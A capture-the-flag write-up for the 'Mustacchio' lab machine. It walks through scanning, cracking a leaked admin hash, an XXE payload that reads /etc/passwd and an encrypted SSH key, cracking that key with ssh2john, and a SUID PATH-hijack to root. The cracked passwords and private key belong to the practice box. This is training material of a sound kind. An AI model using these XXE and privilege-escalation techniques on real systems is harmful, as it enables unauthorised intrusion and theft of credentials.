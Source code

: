 # Mustacchio V2 Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
- 80: http. Apache httpd 2.4.18 ((Ubuntu))
- 8765: http. nginx 1.10.3 (Ubuntu). Title: Mustacchio | Login

None of the versions appear to be vulnerable.

## Gobuster

### Port 80 - Blog
```
gobuster dir -e -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- /robots.txt (nothing useful)
- /custom

Looking in the custom directory found the css and js directories. js contained an SQL backup file users.bak which after running strings gave me the following hashed credentials:
**admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b**

### Port 8765 - Admin login
```
gobuster dir -e -u http://<ip>:8765 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- /auth (301 - Forbidden)
- /home.php (admin page)
- /index.php (login page)

## John the Ripper and Admin login

Running John the Ripper on the backup file hash quickly found the password:
```
john --wordlist=rockyou.txt hash
```
**admin : bulldog19**

This allowed me to login as admin at http://<ip>:8765, which led me to an admin panel where I could add a comment to the website. Looking at the source code revealed 3 interesting things:

1) The comment 'Barry, you can now SSH in using your key!' 
2) The presence of a file '/auth/dontforget.bak'
3) The 'add comment' feature parses the input as xml code

Checking the dontforget.bak file returned some xml code:
```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>...</com>
</comment>
```

Using BurpSuite, I found that the data entered into the comment box is passed as an xml parameter. Providing the above code as a parameter mirrors the data back to me, a good indication there could be an XXE vulnerability.

## XXE to get the ssh key

I tested the following xml code to see if I could read the /etc/passwd file:
```
xml=<!DOCTYPE+replace+[<!ENTITY+name+SYSTEM+'file%3a///etc/passwd'>+]>
<comment>
++<name>%26name%3b</name>
++<author>Barry Clad</author>
++<com>...</com>
</comment>
```

And it worked! Three users have bash on the system: root, joe, and barry.
Previous information told me barry has an ssh key, so I looked in /home/barry and found it

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

## John the Ripper to decrypt the ssh key

```
ssh2john key > johnkey
john --wordlist=rockyou.txt johnkey
```

This quickly cracked the credentials:
**barry : urieljames**

## SSH - First flag

```
chmod 600 key
ssh barry@<ip> -i key
```

After giving the key the correct permissions I logged into ssh with barry's private key. This gave me the first flag from Barry's home directory.

## Privilege Escalation to joe - SETUID and PATH exploitation

Looking for SETUID binaries:

```
find / -perm -u=s -type f 2>/dev/null 
```

Found an interesting file: **/home/joe/live_log**

Running strings shows it is using the tail command, so we could write our own in the /tmp directory and change PATH to run our own script instead.

```
cd /tmp
vim tail
export PATH=/tmp:$PATH
chmod +x /tmp/tail
cd /home/joe
./live_log
```

Where the new tail command contains the following script to simply invoke bash:
```
#!/bin/bash
/bin/bash
```

And now we have root! This works because live_log will look for the 'tail' command in the /tmp directory first, and execute our script which invokes bash. Since the file is SETUID, bash is invoked as the root user instead of barry, thereby escalating our privileges.

```
cd /root
cat root.txt
```
And now we have our final flag!

